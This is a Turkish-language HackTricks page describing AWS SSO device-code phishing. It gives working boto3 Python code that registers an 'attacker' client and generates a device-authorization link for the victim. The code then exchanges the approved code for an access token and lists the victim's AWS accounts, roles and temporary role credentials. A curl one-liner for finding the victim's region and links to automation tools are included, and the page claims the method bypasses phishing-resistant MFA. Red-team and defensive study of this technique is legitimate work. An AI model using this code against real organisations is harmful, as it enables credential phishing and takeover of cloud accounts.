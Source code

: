 # AWS - Kimlik Merkezi ve SSO Kimlik Doğrulama Olmadan Enum

<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## AWS Cihaz Kodu Dolandırıcılığı

İlk olarak [**bu blog gönderisinde**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) önerilen, AWS SSO kullanarak bir **kullanıcıya bir bağlantı göndermek** mümkündür, eğer **kullanıcı kabul ederse** saldırgan, kullanıcının **kimliğini taklit etmek** ve kullanıcının **Kimlik Merkezi'nde** erişebildiği tüm rolleri erişmek için bir **jeton alabilecektir**.

Bu saldırıyı gerçekleştirmek için gereksinimler şunlardır:

* Kurbanın **Kimlik Merkezi'ni** kullanması gerekmektedir
* Saldırganın kurban tarafından kullanılan **alt alan adını** bilmelidir `<kurbanalt>.awsapps.com/start`

Sadece bu bilgilerle, **saldırgan kullanıcıya bir bağlantı gönderebilecek** ve **kabul edilirse saldırganın AWS kullanıcı hesabına erişimi olacaktır.

### Saldırı

1. **Alt alan adını bulma**

Saldırganın ilk adımı, kurban şirketin Kimlik Merkezi'nde kullandığı alt alan adını bulmaktır. Bu, **OSINT** veya **tahmin + BF** ile yapılabilir çünkü çoğu şirket burada adını veya adının bir varyasyonunu kullanacaktır.

Bu bilgiyle, Kimlik Merkezinin yapılandırıldığı bölge elde edilebilir:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Kurban için bağlantı oluşturun ve Gönderin**

Aşağıdaki kodu çalıştırarak bir AWS SSO giriş bağlantısı oluşturun böylece kurban kimlik doğrulaması yapabilir.\
Demo için, bu kodu bir python konsolunda çalıştırın ve daha sonra belirli nesneleri almak için çıkmayın:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Kurbanın bunu kabul etmesini bekleyin**

Eğer kurban **zaten AWS'e giriş yapmışsa**, sadece izinleri kabul etmesi gerekecektir, eğer yapmamışsa, **giriş yapması ve ardından izinleri kabul etmesi gerekecektir**.\
Şu anda promp böyle görünüyor:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO erişim belirteci alın**

Eğer kurban promp'u kabul ettiyse, bu kodu çalıştırarak **kullanıcıyı taklit eden bir SSO belirteci oluşturun**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO erişim belirteci **8 saat boyunca geçerlidir**.

5. **Kullanıcıyı taklit et**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Önceki saldırının **"unphisable MFA" (webAuth) kullanılsa bile çalıştığını bilmek eğlencelidir**. Bu, önceki **iş akışının kullanılan OAuth alanını asla terk etmemesi** nedeniyledir. Diğer phishing saldırılarının aksine kullanıcının giriş alanını taklit etmesi gerektiği durumlarda, cihaz kodu iş akışı bir **cihaz tarafından bilinen bir kodla hazırlandığı için** ve kullanıcı farklı bir makinede bile giriş yapabilir. Eğer kabul edilirse, cihaz, sadece **ilk kodu bildiği için**, kullanıcı için **kimlik bilgilerini alabilecektir**.

Daha fazla bilgi için [**bu gönderiyi kontrol edin**](https://mjg59.dreamwidth.org/62175.html).

### Otomatik Araçlar

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referanslar

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
